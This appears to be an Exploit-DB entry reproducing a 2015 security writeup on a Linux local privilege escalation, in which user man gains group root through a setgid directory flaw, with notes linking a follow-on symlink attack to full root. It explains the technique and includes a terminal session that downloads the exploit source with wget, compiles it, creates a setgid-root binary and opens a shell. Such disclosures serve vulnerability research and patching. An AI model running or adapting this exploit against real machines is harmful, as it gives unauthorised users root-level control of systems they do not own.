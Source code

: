 /*
EDB Note: 
man:man -> man:root ~ http://www.halfdog.net/Security/2015/SetgidDirectoryPrivilegeEscalation/
man:root -> root:root ~ http://www.halfdog.net/Security/2015/MandbSymlinkLocalRootPrivilegeEscalation/

CreateSetgidBinary.c ~ http://www.halfdog.net/Security/2015/SetgidDirectoryPrivilegeEscalation/CreateSetgidBinary.c
DirModifyInotify-20110530.c ~ http://www.halfdog.net/Security/2010/FilesystemRecursionAndSymlinks/DirModifyInotify-20110530.c
*/




## man:man -> man:root

Setgid Binary Creater: The program CreateSetgidBinary.c allows to create the suitable setgid binary circumventing the kernel protection. Currently creating an empty setgid executable in /var/cache/man would work but writing as user man will remove the setgid flag silently. Hence let root itself write binary code to it keeping the flags. But that is not so simple:
- Writing an interpreter header would be simple, but start of interpreter in kernel will drop the setgid capability immediately.
- Hence an ELF binary has to be written. The shellcode from below is just 155 bytes to perform setresgid and execute a shell
- We need a SUID binary to write arbitrary data to stdout with similar method already used in SuidBinariesAndProcInterface. But they do not just echo, they may perform some kind of transformation, e.g. use basename of arg0 for printing. To avoid transformation do not use SUID binary directly but let ld-linux fault and write out user supplied data without modifications. The faulting can triggered easily using LowMemoryProgramCrashing from previous work.
- I did not find any SUID binary writing out null-bytes, so they cannot provide the mandatory null-bytes within the ELF header on stdout/stderr. But kernel will help here, just seek beyond end of file before invoking SUID binary, thus filling gap with 0-bytes.
- The SUID binaries do not write only arg0 but also some error message, thus appending unneeded data to the growing file. As kernel does not allow truncation without losing the setgid property, the SUID binary has to be stopped writing more than needed. This can be done using the nice setrlimit(RLIMIT_FSIZE, ... system call.

Program Invocation: Following sequence can be used for testing:

```
root$ su -s /bin/bash man
man$ cd
man$ pwd
/var/cache/man
man$ ls -al /proc/self/
total 0
dr-xr-xr-x   9 man  man  0 May 15 02:08 .
man$ wget -q http://www.halfdog.net/Security/2015/SetgidDirectoryPrivilegeEscalation/CreateSetgidBinary.c
man$ gcc -o CreateSetgidBinary CreateSetgidBinary.c
man$ ./CreateSetgidBinary ./escalate /bin/mount x nonexistent-arg
Completed
man$ ls -al ./escalate 
-rwsrwsr-t 1 man root 155 May 15 02:12 ./escalate
man$ ./escalate /bin/sh
man$ ls -al /proc/self/
total 0
dr-xr-xr-x   9 man  root 0 May 15 02:13 .
```
